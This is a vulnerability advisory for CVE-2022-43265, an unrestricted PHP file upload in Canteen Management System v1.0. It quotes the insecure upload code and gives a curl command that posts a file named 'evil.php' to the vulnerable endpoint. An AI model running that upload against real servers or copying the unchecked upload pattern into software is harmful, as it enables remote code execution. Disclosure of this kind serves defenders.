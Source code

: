 ```yaml
---
cve: "CVE-2022-43265"
slug: "CVE-2022-43265: Unrestricted File Upload in Canteen Management System"
title: "Unrestricted File Upload in Canteen Management System"
images: [/images/cve-mitre.png]
date: 2022-11-11
tags:
- cve
- file upload
---
```

An arbitrary file upload vulnerability in the component `/pages/save_user.php` of Canteen Management System v1.0 allows attackers to execute arbitrary code via a crafted PHP file.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43265
- project page: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

<hr />

**Description:**  
Canteen Management System allows unrestricted file upload. An attacker user could craft a `multipart/form-data` request to upload a malicious PHP script.
This could lead to a OS Command Execution.

**Details:**  
File: `/assets/pages/save_user.php`  
```php
$image = $_FILES['image']['name'];
$target = "../uploadImage/Profile/".basename($image);

if (move_uploaded_file($_FILES['image']['tmp_name'], $target)) {
    $msg = "Image uploaded successfully";
}else{
    $msg = "Failed to upload image";
}
```

**Step to reproduce:**  
```bash
curl -I -F "image=@evil.php" "http://www.example.com/assets/pages/save_user.php"
```

The server replies with a status code `500` due to all PHP errors in the code but the file is successfully uploaded.


**PoC:**  
![cve-2022-9999](/images/cve-2022-43265.png)
